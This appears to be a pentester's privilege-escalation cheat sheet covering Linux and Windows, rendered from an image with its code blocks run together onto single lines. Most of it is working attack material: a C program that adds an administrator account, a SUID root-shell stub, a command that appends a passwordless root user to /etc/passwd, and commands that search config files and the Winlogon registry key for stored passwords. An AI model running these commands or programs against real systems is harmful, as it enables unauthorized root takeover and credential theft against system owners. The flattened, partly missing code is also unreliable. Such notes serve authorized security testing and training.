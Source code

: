 # **Priv Escalation**

​[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)​

## **Linux Privilege Escalation <a href="#linux-privilege-escalation" id="linux-privilege-escalation"></a>**

* sudo -l
* Kernel Exploits
* OS Exploits
* Password reuse (mysql, .bash\_history, 000-default.conf...)
* Known binaries with suid flag and interactive (nmap)
* Custom binaries with suid flag either using other binaries or with command execution
* Writable files owned by root that get executed (cronjobs)
* MySQL as root
* Vulnerable services (chkrootkit, logrotate)
* Writable /etc/passwd
* Readable .bash\_history
* SSH private key
* Listening ports on localhost
* /etc/fstab
* /etc/exports
* /var/mail
* Process as other user (root) executing something you have permissions to modify
* SSH public key + Predictable PRNG
* apt update hooking (Pre-Invoke)
* Capabilities

## **Windows Privilege Escalation <a href="#windows-privilege-escalation" id="windows-privilege-escalation"></a>**

* Kernel Exploits
* OS Exploits
* Pass The Hash
* Password reuse
* DLL hijacking (Path)
* Vulnerable services
* Writable services binaries path
* Unquoted services
* Listening ports on localhost
* Registry keys

## **Kernel Exploits <a href="#kernel-exploits" id="kernel-exploits"></a>**

Linux: [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)​

Windows: [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)​

```
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/http://www.fuzzysecurity.com/tutorials/16.html
```

​

Windows Add User

```
#include  /* system, NULL, EXIT_FAILURE */​int main (){  int i;  i=system ("net user   /add && net localgroup administrators  /add");  return 0;}
```

​

SUID Change

```
SUID​Set owner user ID.​int main(void){  setresuid(0, 0, 0);  system("/bin/bash");}​
```

```
Privilege Escalation:#Find Binaries that will execute as the ownerfind / -perm -u=s -type f 2>/dev/null​#Find binaries that will execute as the groupfind / -perm -g=s -type f 2>/dev/null​#Find sticky-bit binariesfind / -perm -1000 -type d 2>/dev/null​find / -perm -4000 2>/dev/null​writable by everyonefind / -writable -type f 2>/dev/null​World writeable directoriesfind / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root​World writeable filesfind / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null​Writeable config filesfind /etc/ -writable -type f 2>/dev/null​find / -user root -perm -4000 -exec ls -ld {} \; 2> /dev/null​
```

Window Exploit Suggester

```
python2 windows-exploit-suggester.py --database 2017-10-10-mssb.xls --systeminfo ../systeminfo.txt --quietpython windows-exploit-suggester.py –systeminfo systeminfo.txt –database 2018-11-25-mssb.xls
```

Windows Priv Escalation

```
AlwaysInstallElevatedCheck if the following registry settings are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"​
```

​

Basic Linux Enumeration

```
Distribution type & kernel versioncat /etc/*release*uname -arpm -q kerneldmesg | grep -i linux​Default writeable directory / folder/tmp/dev/shm​Search for passwordsSearch for password within config.phpgrep -R 'password' config.php​Find possible other writeable directory / folderfind / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;​Service(s) running as root userps aux | grep rootps -ef | grep root​Installed applicationsls -lah /usr/bin/ls -lah /sbin/dpkg -lrpm -qals -lah /var/cache/apt/archivesOls -lah /var/cache/yum/​Scheduled jobscrontab -lls -la /etc/cron*ls -lah /var/spool/cronls -la /etc/ | grep croncat /etc/crontabcat /etc/anacrontab​Find pattern in file:grep -rnw '/etc/passwd' -e 'root'​Sticky bit, SGID, SUID, GUIDSticky bitfind / -perm -1000 -type d 2>/dev/null​SGID (chmod 2000)find / -perm -g=s -type f 2>/dev/null​SUID (chmod 4000)find / -perm -u=s -type f 2>/dev/nullfind /* -user root -perm -4000 -print 2>/dev/null​SUID or GUIDfind / -perm -g=s -o -perm -u=s -type f 2>/dev/null​Add user to /etc/passwd and root groupecho hodor::0:0:root:/root:/bin/bash >> /etc/passwd​
```

​
